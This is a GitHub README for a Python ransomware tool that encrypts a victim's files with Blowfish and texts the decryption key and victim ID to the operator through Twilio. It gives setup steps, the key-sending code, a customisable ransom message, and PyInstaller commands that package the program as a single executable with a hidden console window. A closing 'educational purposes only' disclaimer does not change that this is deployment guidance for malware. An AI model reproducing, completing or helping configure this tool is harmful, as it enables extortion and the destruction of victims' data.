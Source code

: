# Ransomware
python ransomware that uses blowfish to encrypt the files and sends the decryption key through SMS using twilio.

## Required installations
- open file location and type **cmd** and **enter** in the top left
- enter these into the command prompt: 
```bash
pip install twilio
```
```bash
pip install pycryptodome
```
## Configuring SMS
- create twilio account at https://www.twilio.com/try-twilio
- on the left under develop, click on phone numbers> manage> active numbers
- create a number
- next click on verified caller IDs and enter and verify your number
- on the top right click on acoount and open API keys and tokens
- you will be able to se your account SID and auth token, you will need these
- you will need to edit this section:
```python
# send key and id number through Twilio SMS
account_sid = 'ENTER ACCOUNT SID HERE'
auth_token = 'ENTER AUTH TOKEN HERE'
client = Client(account_sid, auth_token)
message = client.messages.create(
    body=f'Encryption key: {key}\nID number: {id_number}',
    from_='TWILIO PHONE NUMBER HERE',
    to='YOUR PHONE NUMBER HERE'
)
```
## Additional edits
- you need to customize this line:
```python
 # sms label
    sms_label = tk.Label(root, text="EXAMPLE: SMS YOUREMAIL@.com for decryption key")
    sms_label.pack(pady=5)
```
- this will determine the message that shows at the top of your GUI
    
## Converting to .exe
- open file location and type **cmd** and **enter** in the top left
- enter these into the command prompt: 
```bash
pip install pyinstaller
```
```bash
pyinstaller --onefile -w main.py
```
- **--onefile** makes the exe compact instead of having multiple files
- **-w** hides the command prompt when the it is running
# ⚠️DISCLAIMER/WARNING⚠️
- THIS IS FOR EDUCATIONAL PURPOSES ONLY
- i am not responsible for malicious use of this program
- distrubuting this is illegal 
